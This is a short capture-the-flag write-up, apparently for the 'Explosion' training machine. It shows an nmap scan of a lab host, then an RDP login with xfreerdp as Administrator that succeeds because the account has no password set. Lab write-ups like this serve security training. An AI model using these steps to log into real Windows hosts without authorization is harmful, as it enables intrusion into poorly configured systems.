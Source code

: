 # Explosion

- TL;DR: We are able to connect to a Windows host without a passwrod using `xfreerdp` and the `Administrator` username.

## Reconnaissance 

- Run an nmap scan:
```
nmap -sV -oA nmap_scans/Explosion 10.129.1.13

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 07:03 PDT
Nmap scan report for 10.129.1.13
Host is up (0.077s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.19 seconds

```

<br>

## Exploitation

- We find the following port(s) open:
    - `135/tcp` msrpc
    - `139/tcp` netbios-ssn
    - `445/tcp` microsoft-ds
    - `3389/tcp` ms-wbt-server
- Next we install the `xfreerdp` tool if its not already installed by running `sudo apt-get install freerdp2-x11`
- Once installed, we try to connect to the host with our current username `xfreerdp /v:10.129.1.13`. We are unable to connect to the host because to does not accpet our current username for the RDP session login.
- We try and brute force multiple usernames and get a hit on `Administrator` by running `xfreerdp /v:10.129.1.13 /cert:ignore /u:Administrator`
- During the initialization of the RDP session, we are asked for a `Password`. However, the `Administrator` account has not been configured with a password for logging in, This allows us to log in without a password.

